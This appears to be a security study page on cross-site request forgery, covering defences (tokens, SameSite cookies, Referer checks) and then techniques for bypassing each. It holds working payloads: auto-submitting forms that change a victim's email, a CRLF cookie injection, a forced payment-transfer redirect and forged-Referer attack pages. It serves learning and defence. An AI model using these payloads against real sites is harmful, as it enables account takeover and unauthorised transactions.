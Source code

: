 ```yaml
---
title: "Cross-Site Request Forgery (CSRF)"
weight: 8
description: "Learn what CSRF attacks are, how they work with real examples, and how to defend against them using CSRF tokens, SameSite cookies, and referer validation."
---
```


# Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of web attack where a malicious site tricks a user into performing actions on another site where they're authenticated. For example, it could change a user's email or send money-without their consent.

---

## How CSRF Attacks Work

An attacker can trick a logged-in user into submitting unwanted requests.

### POST-Based Attack

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### GET-Based Attack

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

---

## CSRF Defenses

{{< details summary="CSRF Tokens" >}}

A CSRF token is a unique and unpredictable value generated by the server. It must be submitted with sensitive requests (like changing an email). This ensures the request comes from a legitimate user.

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
  <label>Email</label>
  <input required type="email" name="email" value="example@normal-website.com">
  <input required type="hidden" name="csrf" value="unique-random-token">
  <button type="submit">Update Email</button>
</form>
```

{{< hint style=notes >}}
CSRF tokens should be tied to the user's session and checked on the server.
{{< /hint >}}

{{< /details >}}

{{< details summary="SameSite Cookies" >}}

SameSite is a cookie attribute that controls whether cookies are sent with cross-site requests.

- `Strict`: Only sent in same-site requests (most secure).
- `Lax`: Sent on same-site and top-level GET requests (default in most modern browsers).
- `None`: Sent in all requests but must be marked `Secure`.

{{< /details >}}

{{< details summary="Referer Header Validation" >}}

Some applications check the `Referer` header to verify that requests are coming from their own domain. This can help prevent CSRF attacks, but it's not foolproof.

{{< hint style=warning >}}
Don't rely solely on referer validation. Users or browsers may strip or modify this header.
{{< /hint >}}

{{< /details >}}

---

## CSRF Token Bypass Techniques

- Switch from `POST` to `GET`
- Remove the CSRF token parameter
- Use a predictable or fake token
- Use Burp Sequencer to analyze the quality of randomness of the token 
- Reuse a token from your own session (if the app doesn't check the token-user binding)
- There are two token: one in a cookie and one in hidden input (this can also have the same value)
  - Some apps do tie the CSRF token to a cookie, but not to the session cookie.
  - Can you set a cookie? E.g. Header injection with `CRLF`.(`%0d%0a`)
  - ```sh
    /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
    ```
  - Log in to the application with your account -> obtain a valid token and associated cookie.
  - Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

  ```html
  <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
  ```

---

## Bypassing SameSite Protections

### Bypassing Lax Mode

- Using GET requests (bypass lax)

    ```html
    <script>
        document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
    </script>
    ```

- GET method override (bypass lax)
  - Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  
    ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```


### Bypassing Strict Mode

Use a client-side redirect:

```javascript
// On page: https://vulnerable-website.com/post/confirm?postId=10
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

Now trigger redirect to a sensitive endpoint:

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{{< hint style=notes >}}
This attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{{< /hint >}}

---

## Bypassing Referer Validation

### Strip the Referer

Some apps validate the Referer header if present, but skip if omitted:

```html
<meta name="referrer" content="never">
```

This prevents the browser from sending the `Referer` header.

### Fake the Referer

Common tricks include using subdomains or path tricks:

```md
http://vulnerable-website.com.attacker.com/csrf
http://attacker.com/csrf?vulnerable-website.com
```

You need to add `Referrer-Policy` to `unsafe-url`:

```html
<meta name="referrer" content="unsafe-url" />
```

{{< hint style=tips >}}
Instead of use `http://attacker-website.com/vulnerable-website.com`, you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

```html
<!-- http://attacker-website.com/ -->
<html>
  <meta name="referrer" content="unsafe-url"/>
  <body>
    <form action="https://vulnerable-website.com/change-email" method="POST">
      <input type="hidden" name="email" value="test@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
{{< /hint >}}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy \[[↗](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)] .
